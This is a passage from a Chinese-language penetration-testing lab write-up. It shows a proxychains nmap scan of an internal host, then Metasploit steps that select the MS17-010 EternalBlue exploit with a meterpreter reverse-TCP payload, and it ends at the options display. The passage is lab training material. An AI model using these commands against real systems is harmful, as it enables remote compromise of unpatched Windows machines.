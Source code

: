 扫描 192.168.93.40

```plain
proxychains nmap -Pn -sT -sV -F -O 192.168.93.40
```

[![](assets/1708094050-51177cc72c3e1510713c3c5f8f2801f7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621150119-6c997e98-1001-1.png)  
发现两台机器且存在域

## **8 实验八：ms17-010**

Eternalblue 通过 TCP 端口 445 和 139 来利用 SMBv1 和 NBT 中的远程代码执行漏洞，恶意代码会扫描开放 445 文件共享端口的 Windows 机器，无需用户任何操作，只要开机上网，不法分子就能在电脑和服务器中植入勒索软件、远程控制木马、虚拟货币挖矿机等恶意程序。  
已知受影响的 Windows 版本包括但不限于：Windows NT，Windows 2000、Windows XP、Windows 2003、Windows Vista、Windows 7、Windows 8，Windows 2008、Windows 2008 R2、Windows Server 2012 SP0。  
使用 Metasploit 对目标进行监听

```plain
proxychains msfconsole  # 启动 Metasploit
search ms17-010     # 查找永恒之蓝漏洞
```

[![](assets/1708094050-92f2075547d62872dc09adb35bb91756.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621150231-970eab26-1001-1.png)

```plain
use exploit/windows/smb/ms17_010_eternalblue  #执行漏洞
set payload windows/x64/meterpreter/reverse_tcp  #执行 payload
show options  #查看当前攻击配置
```
